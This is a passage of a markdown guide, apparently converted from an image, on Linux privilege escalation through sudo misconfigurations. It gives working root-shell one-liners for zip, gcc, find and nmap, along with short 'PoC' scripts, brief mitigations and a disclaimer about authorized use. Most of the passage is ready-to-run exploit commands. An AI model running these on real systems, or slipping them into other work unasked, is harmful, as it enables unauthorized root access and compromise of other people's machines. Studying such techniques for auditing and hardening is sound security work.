     ```bash
    echo test > notes.txt
    sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"
    ```
    
    **Mitigation:** Avoid `sudo` permissions for `zip`.
    
    ### 2.3.2 `gcc`
    
    **Command:** `sudo gcc -wrapper /bin/bash,-s .`
    
    **Explanation:** `gcc` allows wrappers to specify an executable. Here, `/bin/bash` is invoked instead of the intended wrapper, granting a privileged shell.
    
    **PoC:**
    
    ```bash
    sudo gcc -wrapper /bin/bash,-s .
    ```
    
    **Mitigation:** Do not grant `sudo` access to `gcc`.
    

---

### **3. Exploit Code Examples (PoCs)**

To automate these privilege escalations, here are some Proof-of-Concept scripts.

### **Example PoC for Automating `sudo find` Exploit**

```bash

#!/bin/bash
echo "Automating privilege escalation with sudo find"
sudo find / -exec /bin/bash \;

```

### **Example PoC for `nmap` NSE Exploit**

```bash

#!/bin/bash
echo "os.execute('/bin/bash')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse

```

> Disclaimer: Use these PoCs only in authorized, controlled environments. Unauthorized use is illegal and unethical.
> 

---

### **4. Real-World Examples and Case Studies**
